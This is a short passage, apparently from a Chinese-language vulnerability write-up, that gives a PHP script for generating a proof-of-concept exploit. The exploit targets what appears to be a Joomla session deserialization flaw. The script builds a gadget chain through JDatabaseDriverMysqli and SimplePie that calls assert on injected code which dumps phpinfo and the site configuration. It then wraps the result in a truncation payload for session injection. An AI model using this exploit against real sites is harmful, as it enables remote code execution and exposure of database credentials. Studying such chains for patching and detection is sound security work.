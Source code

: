 再用如下脚本生成POC：

    <?php
    class JSimplepieFactory {
    }
    class JDatabaseDriverMysql {

    }
    class SimplePie {
        var $sanitize;
        var $cache;
        var $cache_name_function;
        var $javascript;
        var $feed_url;
        function __construct()
        {
            $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
            $this->javascript = 9999;
            $this->cache_name_function = "assert";
            $this->sanitize = new JDatabaseDriverMysql();
            $this->cache = true;
        }
    }

    class JDatabaseDriverMysqli {
        protected $a;
        protected $disconnectHandlers;
        protected $connection;
        function __construct()
        {
            $this->a = new JSimplepieFactory();
            $x = new SimplePie();
            $this->connection = 1;
            $this->disconnectHandlers = [
                [$x, "init"],
            ];
        }
    }

    $a = new JDatabaseDriverMysqli();
    $poc = serialize($a); 

    $poc = str_replace("\x00*\x00", '\\0\\0\\0', $poc);

    echo "123}__test|{$poc}\xF0\x9D\x8C\x86";

